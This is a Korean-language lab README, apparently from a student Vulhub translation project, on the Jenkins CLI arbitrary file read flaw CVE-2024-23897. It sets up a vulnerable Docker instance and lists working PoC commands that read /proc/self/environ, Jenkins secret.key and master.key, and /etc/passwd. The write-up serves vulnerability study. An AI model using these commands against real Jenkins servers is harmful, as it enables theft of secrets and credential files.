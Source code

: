 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.
**발견된 취약점**
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.
**args4j**
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.
``` docker compose up -d ```
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
`http://localhost:8080/' or 'http://본인-ip주소:8080/'
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/스크린샷 2025-04-27 181243.png)
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'
**컨테이너 접속하기**
```docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기```
## PoC
1. 'jenkins-cli.jar'을 해당 링크, 'http://localhost:8080/jnlpJars/jenkins-cli.jar'로부터 다운로드한다.
> ```apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치```
2. '/proc/self/environ' 파일을 읽는다. 'JENKINS_HOME=/var/jenkins_home'
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image3.png)
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

